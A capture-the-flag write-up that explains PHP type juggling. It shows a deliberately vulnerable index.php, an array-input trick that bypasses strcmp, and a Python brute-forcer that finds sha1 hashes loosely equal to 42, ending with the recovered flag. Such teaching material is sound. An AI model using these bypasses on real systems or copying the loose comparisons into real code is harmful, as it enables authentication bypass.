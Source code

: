 ```yaml
---
title: clowns-as-a-service
date: 2023-12-05
tags:
- web
- type juggling
- php
categories: BlahajCTF 2023
---
```


solved by {% person hartmannsyg %}, {% person fs %}

> PHP has some inner clown magic like juggling. Can you juggle your way to get the flag?

We are given some source code:

{% ccb lang:php caption:index.php url:'https://gist.github.com/azazazo/036a6890d65e7d65db97116b69010c46' url_text:'source link' gutter1:1-23 %}
<?php

$secret = 'REDACTED';
$flag = 'blahaj{REDACTED}';

$inputsecret = $_POST['secret'];
$meaningoflife = $_POST['meaningoflife'];

# Check if the secret is correct
if (strcmp($inputsecret, $secret) != 0) {
    echo 'come back with correct secret';
}
else{
    # Check if the meaning of life is correct
    if (hash('sha1',$meaningoflife) != 42) {
        echo 'come back with correct meaning of life';
    }
    else{
        echo 'flag: ' . $flag;
    }
}

?>
{% endccb %}

We have to comparisons to break, the first one is a `strcmp()` between our input secret and the actual secret, and the second one is to bypass the hash function.

## Bypassing the first check

To bypass the first strcmp, we just need to submit an array into `$secret`, and the first check will be bypassed. This is because:
1. if you `strcmp()` an array and a string, it will result in `NULL`
2. `NULL` == 0 is true

So when I submit it, I get:
```html
<br />
<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/html/index.php</b> on line <b>10</b><br />
come back with correct meaning of life
```

confirming that we have bypassed the first check.

## Bypassing the second check

From [this pdf](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf) which is the first result I got when I googled "php type juggling", in Bug #2 (Page 18-22), if a hash is compared to an integer, then as long as we have the integer followed by a non-numeric character in the hash, it will pass through.

{% ccb
html:true %}
<span class="string">"<span class="number">7</span>a5c2...72c933"</span> == int(<span class="number">7</span>)
<span class="string">"<span class="number">42</span>f66...8229bb"</span> == int(<span class="number">42</span>)
<span class="string">"<span class="number">092</span>d1...c410a9"</span> == int(<span class="number">92</span>)
{% endccb %}

I.e., we need to find a sha1 hash that starts with 42, and whose third digit is not a digit (i.e. can only be a, b, c, d, e, f). We can make a python script that generates various hashes like that:

{% ccb caption:hash.py gutter1:1-13 lang:py %}
import hashlib

chars = '0123456789abcdefghijklmnopqrstuvwxyz'
chars = [bytes(c, 'utf-8') for c in chars ]
for i in chars:
    for j in chars:
        for k in chars:
            for l in chars:
                for m in chars:
                    hash = hashlib.sha1(i+j+k+l+m).hexdigest()
                    if hash[:2].isnumeric() and int(hash[:2]) == 42 and not hash[2].isnumeric():
                        print(i+j+k+l+m)
                        print(hash)
{% endccb %}

As it turns out this generates *a lot* of "valid" hashes so I took one (`0sob7` gives `42a5b...1aa52a`), and submitted it as the `meaningoflife`.

I received:
```html
<br />
<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/html/index.php</b> on line <b>10</b><br />
flag: blahaj{php_is_the_biggest_clown_of_all_the_clowns}
```